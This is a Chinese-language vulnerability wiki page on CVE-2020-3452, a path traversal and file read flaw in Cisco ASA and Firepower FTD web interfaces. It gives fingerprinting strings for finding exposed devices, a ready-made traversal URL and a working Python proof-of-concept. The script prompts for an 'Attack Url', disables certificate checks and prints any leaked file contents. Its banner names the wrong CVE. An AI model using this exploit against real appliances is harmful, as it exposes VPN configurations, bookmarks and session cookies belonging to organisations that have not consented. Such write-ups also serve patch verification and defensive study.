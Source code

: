 # Cisco ASA设备 任意文件读取漏洞 CVE-2020-3452

## 漏洞描述

Cisco Adaptive Security Appliance (ASA) 防火墙设备以及Cisco Firepower Threat Defense (FTD)设备的WEB管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对ASA或FTD系统文件或底层操作系统(OS)文件的访问，所以只能读取web系统目录的文件，比如webvpn的配置文件、书签、网络cookies、部分网络内容和超文本传输协议网址等信息。

## 漏洞影响

- Cisco ASA设备：

![](./images/202202162120091.png)



- Cisco FTD设备：



![](./images/202202162120403.png)

## 网络测绘

```
/+CSCOE+/
Cisco-ASA
```

## 漏洞复现

**POC如下**

```plain
https://xxx.xxx.xxx.xxx/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```

会下载得到一个文件

![](./images/202202162120622.png)

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Cisco                                                    \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-1956                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vnln_url = target_url + "/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../"
    headers = {
        "User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36"
    }

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    response = requests.get(url=vnln_url, headers=headers, verify=False ,timeout=20)
    if "Bad Request" in response.text:
            print("\033[31m[x] 漏洞已修复 \033[0m")
    else:
            print("\033[32m[o] 存在漏洞，响应为\n\033[0m",response.text)



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](./images/202202162120935.png)